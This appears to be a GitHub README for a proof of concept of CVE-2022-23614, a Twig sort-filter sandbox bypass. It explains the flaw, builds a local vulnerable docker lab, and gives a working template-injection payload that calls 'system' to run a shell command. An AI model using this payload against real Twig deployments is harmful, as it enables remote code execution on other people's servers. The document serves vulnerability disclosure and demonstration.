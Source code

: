 # CVE-2022-23614
PoC for [CVE-2022-23614](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23614), [GHSA-5mv2-rx3q-4w2v](https://github.com/twigphp/Twig/security/advisories/GHSA-5mv2-rx3q-4w2v) (Twig sort filter code execution/sandbox bypass)

As seen in this commit - [https://github.com/twigphp/Twig/commit/..](https://github.com/twigphp/Twig/commit/22b9dc3c03ee66d7e21d9ed2ca76052b134cb9e9), twig was passing user supplied function name as a callback parameter to [uasort](https://www.php.net/manual/en/function.uasort.php) ([here](https://github.com/twigphp/Twig/commit/22b9dc3c03ee66d7e21d9ed2ca76052b134cb9e9#diff-29e85e483c6ec4a9c2fd144820b6722c86df60d54175b355d85e806253313c1aR940)), thus leading to arbitrary code execution

To build and run the docker container with  a vulnerable twig version
```BASH
$ ./build-docker.sh
```

Open the webpage at localhost:1337 and try rendering the following payload

```Twig
{{ ['id','']|sort('system') }}
```

PoC
![PoC](/images/webpage.png)

Result
![Result](/images/result.png)
